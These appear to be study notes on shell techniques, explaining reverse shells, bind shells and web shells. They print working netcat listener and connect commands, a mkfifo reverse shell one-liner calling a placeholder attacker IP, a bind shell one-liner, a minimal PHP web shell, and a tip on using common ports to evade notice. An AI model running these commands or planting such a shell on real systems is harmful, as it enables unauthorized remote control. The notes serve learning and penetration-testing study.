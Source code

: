 1 - Set up a listener using Netcat 

E.g. nc listener
```
nc -lvnp 443
```
Any port can be used to wait for a connection. Note: known ports (e.g. 53, 80, 8080, 443, 139, 445) tend to be used to blend with legitimate traffic

2- Gaining reverse shell access

Once a listener is set, a rever shell payload is executed. This abuses the vulnerability/unauthorised access granted and executes a command that will expose the shell through the network. [Pentest Monkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) have some examples.

E.g. Pipe rever shell
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc [ATTACKER_IP] [ATTACKER_PORT] >/tmp/f
```

3- Attacker receives shell

Once received, the attacker can execute commands as if they were logging into a regular terminal

### Bind Shell
Bind shells will bind a port on the compromised system and listen for incoming connections. When a connection is made, it exposes a shell session. This method can be used when the compromised target does not allow outgoing connections. Note: this tends to be less popular since it needs to remain active, which increases the chances of detection.

The process typically is as follows:

1- Setting up the bind shell on the target
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```
Once the command is executed, it will wait for an incoming connection.

2- Attacker connects to the bind shell

As the target waits for incoming ocnnections, attackers can use Netcat to connect.
```
nc -nv [TARGET_IP] 8080
```

After connection, a shell is obtained and commands can be executed.

### Web Shells
Web shells are scripts written in a language supported by a compromised web server, which can execute commands through the web server itself. These are usually files containing the code that executes that can be hidden in a compromised web app or service. These can be written in PHP, ASP, JSP, and CGI scripts.

1- Upload web shell file to web server

E.g. simple PHP web shell
```
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```
